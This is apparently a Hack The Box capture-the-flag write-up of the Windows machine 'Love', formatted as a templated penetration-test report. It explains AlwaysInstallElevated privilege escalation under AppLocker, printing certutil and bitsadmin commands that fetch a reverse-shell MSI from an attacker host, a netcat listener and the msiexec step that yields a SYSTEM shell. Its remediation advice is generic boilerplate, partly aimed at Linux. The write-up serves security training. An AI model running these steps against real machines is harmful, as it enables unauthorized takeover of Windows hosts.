# Offensive Security Assessment Report: Love


**Offensive Security Assessment & Penetration Testing Report** conducted on the target environment **Love** hosted on **Hack The Box**, executed in accordance with **OffSec PEN-200 (OSCP)** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Love |
| **Platform** | Hack The Box |
| **Operating System** | Windows |
| **Difficulty Rating** | Easy |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

Enumeration



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


* **Observed Evidence / Output:** afba0b94679533a7dff05c3e38cb08a1



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.


* **Observed Evidence / Output:** ed178fcecb8337701f730095f8930260



* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


> 
> 
> 

> **Assessment Query / Target Milestone:** > # ¿Qué es AlwaysInstallElevated?
> 
> Si **ambas** claves están a `1`:
> 
> - `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
> - `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
> 
> cualquier **.msi** que un usuario ejecute con `msiexec` se instala con **NT AUTHORITY\SYSTEM**.
> 
> Es un “regalo” típico de privesc en Windows.
> 
> Comprueba así:
> 
> ```bash
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> 
> ```
> 
> Debe devolver `0x1` en ambos.
> 

> **Assessment Query / Target Milestone:** > # ¿Por qué tu primer intento fallaba?
> 
> Porque además había **AppLocker** activo. AppLocker puede limitar qué **tipos de fichero** (MSI/EXE/Script) se pueden ejecutar, **desde qué rutas** y **por qué usuarios**.
> 
> En tu caso la política permitía **MSI solo para “Phoebe” y Administrator** y **solo desde un directorio concreto** (p. ej. `C:\Administration\`).
> 
> Si ejecutas el MSI desde fuera de esa ruta, AppLocker lo bloquea **antes** de que AlwaysInstallElevated pueda elevar.
> 
> Comprueba la política efectiva:
> 
> ```powershell
> Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections |
>   Where-Object {$_.CollectionName -eq 'MsiAndScript'} |
>   Select -ExpandProperty Rules | Select Name,UserOrGroupSid,Condition
> 
> ```
> 
> (Ataja: `get-applockerpolicy -effective | select -expandproperty rulecollections` y busca la colección **MsiAndScript**. Ahí verás el **Path** permitido y los **usuarios**)
> 
> También puedes ver las reglas en el registro:
> 
> ```powershell
> Get-ChildItem 'HKLM:\Software\Policies\Microsoft\Windows\SrpV2\Msi' -Recurse |
>   Get-ItemProperty | Select PSChildName, User, Value, Description
> 
> ```
> 
> # Explotación paso a paso (lo que hiciste)
> 
> 1. Confirmas AIE (las dos claves a 1) y localizas la **ruta permitida** por AppLocker.
> 2. Generas un MSI malicioso (reverse shell).
>     - Con msfvenom suele valer: `f msi` (o empaquetas tu EXE en un MSI).
> 3. **Descargas/colocas el MSI dentro de la ruta permitida** (ej.: `C:\Administration\reverse.msi`).
>     
>     Opciones de descarga sin PowerShell:
>     
>     ```bash
>     certutil -urlcache -f http://LHOST:8000/reverse.msi C:\Administration\reverse.msi
>     bitsadmin /transfer j1 http://LHOST:8000/reverse.msi C:\Administration\reverse.msi
>     
>     ```
>     
> 4. Listener listo:
>     
>     ```bash
>     rlwrap nc -lvnp 4444
>     
>     ```
>     
> 5. Ejecutas con SYSTEM gracias a AIE:
>     
>     ```bash
>     msiexec /quiet /i C:\Administration\reverse.msi
>     
>     ```
>     
> 
> Si tu usuario es **Phoebe**, AppLocker te deja ejecutar desde esa carpeta, y AIE hace el resto ⇒ **shell como SYSTEM**.
> 

> **Assessment Query / Target Milestone:** > # ¿Cómo detectar esto rápido en futuras máquinas?
> 
> **Checklist exprés de Windows privesc:**
> 
> 1. **AIE**
>     
>     ```
>     reg query HKLM\...\Installer /v AlwaysInstallElevated
>     reg query HKCU\...\Installer /v AlwaysInstallElevated
>     
>     ```
>     
> 2. **AppLocker (si existe)**
>     
>     ```
>     Get-AppLockerPolicy -Effective | select -expandproperty RuleCollections
>     
>     ```
>     
>     - Localiza colección **MsiAndScript**: busca **Allow por ruta** y **usuarios**.
>     - Apunta las rutas permitidas (p. ej. `C:\Windows\Tasks\*`, `C:\Administration\*`, etc.).
> 3. **¿Puedes escribir en esa ruta?**
>     
>     ```
>     icacls C:\Administration
>     
>     ```
>     
>     Si no, intenta otras rutas Allow de AppLocker o busca otro vector.
>     
> 4. **Transferencia sin PowerShell** (por si está restringido): `certutil`, `bitsadmin`, `ftp`, `curl.exe`, `wget.exe` (si existe).
> 5. **Plan B** si el MSI sigue bloqueado:
>     - Busca **otras reglas Allow** (EXE/Script) y **LOLBINs** permitidos (msbuild, installutil, regsvr32, rundll32, etc.).
>     - WinRE/Servicios/Scheduled Tasks/Unquoted paths/Permisos débiles en binarios y carpetas.
> 

> **Assessment Query / Target Milestone:** > # ¿Por qué winPEAS no lo marcó?
> 
> - Algunas versiones sólo avisan si **ambas** claves AIE están a 1. Si una faltaba cuando lo ejecutaste, no salta.
> - En sistemas con **AppLocker Enforcement**, PEAS puede mostrar AppLocker activo pero no siempre resalta “esta ruta concreta te deja MSI para tu usuario”. Por eso conviene **mirar la política efectiva** manualmente como arriba.
> 
> # Mini-resumen para tu writeup
> 
> - **Hallazgo:** `AlwaysInstallElevated=1` en HKLM y HKCU.
> - **Restricción:** AppLocker “MsiAndScript” sólo permite a *Phoebe* y *Administrator* ejecutar MSI desde `C:\Administration\`.
> - **Acción:** genero `reverse.msi`, lo ubico en `C:\Administration\`, `msiexec /quiet /i reverse.msi`.
> - **Scan Outcome: ** shell como **SYSTEM**.

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for **OffSec** certification preparation (OSCP, OSEP, OSWE) and commercial penetration testing enablement.
